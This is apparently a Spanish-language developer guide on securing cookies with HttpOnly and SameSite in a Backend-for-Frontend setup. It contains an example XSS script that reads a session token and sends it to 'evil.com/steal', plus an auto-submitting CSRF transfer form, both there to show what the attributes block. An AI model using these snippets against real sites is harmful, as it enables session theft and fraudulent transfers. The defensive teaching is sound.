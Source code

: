 ### 🍪 Seguridad de Cookies: HttpOnly y SameSite

#### Resumen Ejecutivo

Las cookies con atributos `HttpOnly` y `SameSite` son fundamentales en el patrón BFF (Backend-for-Frontend) porque proporcionan **protección automática** contra dos de los ataques más comunes:

- **HttpOnly** → Protege contra **XSS** (Cross-Site Scripting)
- **SameSite** → Protege contra **CSRF** (Cross-Site Request Forgery)

#### Comparación de Vulnerabilidades

| Tipo Cookie | XSS Vulnerability | CSRF Vulnerability | Recomendación |
|-------------|-------------------|-------------------|---------------|
| **Normal** | ❌ `document.cookie` expone tokens | ❌ Enviada en todos los requests | 🚫 Nunca usar |
| **HttpOnly** | ✅ JavaScript no puede acceder | ❌ Aún enviada cross-site | 🔶 Mejor, pero incompleto |
| **SameSite=Lax** | ❌ JavaScript puede acceder | ✅ No enviada desde otros sitios | 🔶 Mejor, pero incompleto |
| **HttpOnly + SameSite** | ✅ Protegida de scripts | ✅ Protegida de CSRF | ✅ **Configuración óptima** |

#### Ejemplos de Ataques Mitigados

**XSS Attack Prevention:**
```javascript
// 🕵️ Script malicioso inyectado en la página
<script>
  // ❌ Sin HttpOnly: Este código roba la sesión
  const sessionToken = document.cookie
    .split(';')
    .find(c => c.includes('session='))
    ?.split('=')[1];
  
  fetch('https://evil.com/steal', {
    method: 'POST', 
    body: sessionToken
  });
  
  // ✅ Con HttpOnly: document.cookie no incluye cookies HttpOnly
  console.log(document.cookie); // "theme=dark; lang=es" (solo cookies no-HttpOnly)
</script>
```

**CSRF Attack Prevention:**
```html

<form action="https://mybank.com/transfer" method="POST">
  <input type="hidden" name="to" value="attacker@evil.com">
  <input type="hidden" name="amount" value="10000">
</form>

<script>
  // ❌ Sin SameSite: La cookie de sesión se envía automáticamente
  document.forms[0].submit();
  
  // ✅ Con SameSite=Lax: La cookie NO se envía desde evil.com
  // Resultado: 401 Unauthorized
</script>
```

---